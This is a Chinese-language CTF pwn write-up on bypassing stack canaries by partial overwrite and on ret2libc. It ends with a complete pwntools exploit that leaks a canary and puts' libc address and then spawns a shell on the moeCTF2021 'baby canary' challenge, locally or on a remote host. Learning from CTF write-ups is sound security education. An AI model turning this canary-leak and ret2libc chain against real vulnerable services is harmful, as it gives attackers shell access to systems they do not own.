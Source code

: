 ```yaml
---
title: "[PWN.0x01]canary|partial overwrite|ret2libc"
date: 2022-03-07T22:25:31+08:00
draft: false
url: "articles/CTFpwn2"
categories: ["CTF","PWN"]
---
```


### canary绕过

#### 什么是canary？

canary是一种防止栈溢出的保护机制，可以在终端中使用checksec命令检查ELF文件是否开启了canary保护。

是否开启canary的编译选项：

```bash
gcc -o test test.c // 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c //禁用栈保护
gcc -fstack-protector -o test test.c //启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c //启用堆栈保护，为所有函数插入保护代码
```

在开启了canary的情况下，程序会在栈底额外存储一个值，并在函数return的时候检查这个值是否发生变动，从而判断程序是否发生了栈溢出，可以大大提高程序运行的安全性。

![1](1.svg)

#### 如何绕过canary？

canary本身有个防意外输出的机制，由于printf %s函数以`\x00`为输出结束的标志，因此为了防止canary下面的合法数据段被合法写入的情况下，canary被printf函数意外输出，所以在小端序程序中，canary的最低位字节一定为`\x00`，因此可以进行**partial overwrite**，即部分覆盖。在写完合法的区域之后，溢出写入一个字节的数据把canary末尾的`\x00`覆盖掉，这样之后的printf函数就会顺带着泄露canary的值。



### ret2libc

#### 概述

在较为基础的pwn题中一般都有一个显性的`system`函数和`/bin/sh`字符串供选手调用。

如果这两者都不显性存在，就可以使用ret2libc方法。

这种方法主要针对**动态链接（dynamic linking）**的程序，程序运行时会调用 **libc.so** (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)。

**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system("/bin/sh")** 来打开 shell。

工作重心转向获取libc.so加载进内存的可利用的函数的地址。

#### 什么是动态链接？

[深入理解动态链接 - 简书 (jianshu.com)](https://www.jianshu.com/p/cdb5cfcb5056)

[深入理解GOT表和PLT表 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/130271689)

[got表和plt表在程序执行过程中的作用 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1680494)

简而言之，装载到程序中的有两张表，对于一个外部库的被调用的函数，plt表指向got表中这个函数的位置，got表中则存储着这个函数在内存中的真实地址，函数的调用时通过plt表来完成的。

![2](2.svg)

而对于一个链接库（如libc.so）而言，虽然其加载进内存的具体地址不确定，但是其内部的各个函数的相对位置是确定的，也就是说，可以构造payload泄露libc.so中的一个函数的真实地址，从而根据固定的偏移获取system等函数的地址。



#### 例题：moeCTF2021 - baby canary

checksec后发现开了NX和canary保护。

![lAEmSNwFPbVyfop](lAEmSNwFPbVyfop.png)

canary的绕过方法上面已有介绍，构造payload如下，借助第一个puts获取canary的值。

```python
payload1=b'a'*(0x4c-0x0c)+b'b'
p.send(payload1)
p.recvuntil(payload1)
canary=u32(p.recv(3).rjust(4,b'\x00'))
```

接下来要获取libc.so库中的某一函数的真实地址，不妨来获取puts函数的真实地址。构造payload使gots表中puts的值输出，获取到puts函数的真实地址，并使函数返回至main函数中，重新开始程序进行进一步攻击。

```python
payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
#注意上面的puts_got指的是地址，而真实的值是不固定的，需要被puts函数泄露
p.send(payload2)
p.recvuntil("he flag!\n")
puts_addr=u32(p.recv(4))
```

之后根据已知的libc.so中puts函数和system，/bin/sh的便宜来获取system和/bin/sh的真实位置，从而构造payload攻击。

完整exp：

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
local=1
e=ELF("./baby_canary")
puts_got=e.got["puts"] #指向got表的地址，got表具体的值要靠puts泄露
puts_plt=e.plt["puts"]
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
def main():
    if local:
        p=process("./baby_canary")
    else:
        p=remote("114.67.175.224",11482)
    p.recv()
    payload1=b'a'*(0x4c-0x0c)+b'b'
    p.send(payload1)
    p.recvuntil(payload1)
    canary=u32(p.recv(3).rjust(4,b'\x00'))
    p.recv()
    print("canary: ",hex(canary))
    payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
    p.send(payload2)
    p.recvuntil("he flag!\n")
    puts_addr=u32(p.recv(4))
    print(puts_addr)
    libc_base = puts_addr - libc.sym['puts']
    system_addr = libc_base + libc.sym['system']
    binsh_addr = libc_base + libc.search(b'/bin/sh').__next__()

    p.recvuntil("u are?\n")
    p.send(payload1)
    payload3=b'a'*(0x4c-0xc)+p32(canary)+b'a'*12+p32(system_addr)+b'aaaa'+p32(binsh_addr)
    p.send(payload3)
    p.interactive()
main()
```



### 小插曲

实践中发现，在函数调用栈中除了该有的局部变量，有时会出现一些奇怪的变量，这是由编译器决定的，一般用于存储寄存器上下文。

![3](3.png)

